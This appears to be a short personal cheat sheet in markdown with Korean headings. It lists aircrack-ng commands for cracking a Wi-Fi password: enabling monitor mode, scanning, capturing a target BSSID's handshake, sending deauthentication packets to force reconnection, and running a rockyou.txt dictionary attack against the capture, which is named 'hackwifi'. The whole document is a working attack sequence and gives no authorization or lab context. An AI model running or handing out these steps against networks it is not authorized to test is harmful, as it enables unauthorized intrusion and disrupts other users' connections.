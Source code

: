 # network

## wlan0 > wlan0mon 옵션변경
airmon-ng start wlan0

## wlan0mon 으로 radio 스캔시작
airodump-ng wlan0mon

## 특정 bssid 취득후 캡쳐시작
airodump-ng --bssid 98:F1:99:50:xx:xx -c 4 -w hackwifi-xxx wlan0mon

## 별도 cmd로 세션시도
aireplay-ng -0 4 -a 98:F1:99:50:xx:xx wlan0mon

## 캡쳐된 파일의 사전파일과 매칭시도
aircrack-ng ./hack-aterm.cap-06.cap -w ./rockyou.txt 

## wlan0mon STOP
airmon-ng stop wlan0
